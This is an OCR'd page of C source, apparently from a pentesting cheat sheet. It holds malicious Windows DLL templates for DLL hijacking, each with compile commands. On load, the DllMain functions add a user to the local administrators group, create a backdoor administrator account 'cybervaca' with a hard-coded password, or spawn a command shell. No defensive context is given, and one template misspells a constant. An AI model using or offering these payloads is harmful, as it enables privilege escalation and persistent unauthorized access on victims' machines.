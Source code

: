 ```c
break;
}
return TRUE;
}
```

```c
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
if (dwReason == DLL_PROCESS_ATTACH){
system("cmd.exe /k net localgroup administrators user /add");
ExitProcess(0);
}
return TRUE;
}
```

```c
//x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
//x86_64-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a

#include <windows.h>

int owned()
{
WinExec("cmd.exe /c net user cybervaca Password01 ; net localgroup administrators cybervaca /add", 0);
exit(0);
return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
owned();
return 0;
}
```

```c
//Another possible DLL
// i686-w64-mingw32-gcc windows_dll.c -shared -lws2_32 -o output.dll

#include<windows.h>
#include<stdlib.h>
#include<stdio.h>

void Entry (){ //Default function that is executed when the DLL is loaded
system("cmd");
}

BOOL APIENTRY DllMain (HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
switch (ul_reason_for_call){
case DLL_PROCESS_ATTACH:
CreateThread(0,0, (LPTHREAD_START_ROUTINE)Entry,0,0,0);
break;
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DEATCH:
break;
}
return TRUE;
}
```